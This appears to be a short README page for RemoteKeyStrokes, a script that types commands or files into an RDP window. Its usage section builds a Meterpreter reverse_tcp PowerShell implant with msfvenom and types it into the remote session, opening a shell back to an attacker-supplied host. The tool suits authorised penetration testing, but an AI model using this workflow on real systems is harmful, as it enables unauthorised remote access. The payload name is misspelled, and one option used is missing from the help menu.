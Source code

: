 # RemoteKeyStrokes

## 01 - Help Menu

```
$ ./rks.sh -h
Usage: rks.sh [-c <cmdfile> | -i <input> -o <tofile>] [-w <windowname>] [-h]
Options:
    -c, --cmdfile <cmdfile>     Specify the file containing commands to execute
    -i, --input <input>         Specify the input file to transfer
    -o, --tofile <tofile>       Specify the output file to transfer
    -w, --windowname <name>     Specify the window name for RDP (FreeRDP is set
                                by default if not specified)

    -h, --help                  Display this help message
```

## 02 - Usage

```
$ msfvenom -p windowx/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f psh -o implant.ps1

$ ./rks.sh -c "powershell.exe" -m dialogbox

$ ./rks.sh -c implant.ps1
```

---
## References

- [RemoteKeyStrokes](https://github.com/U53RW4R3/RemoteKeyStrokes)

- [Sending Keystrokes to Your (Virtual) Machines using X, Vnc , Rdp or Native ways](https://web.archive.org/web/20220712164101/https://www.jedi.be/blog/2010/08/29/sending-keystrokes-to-your-virtual-machines-using-X-vnc-rdp-or-native/)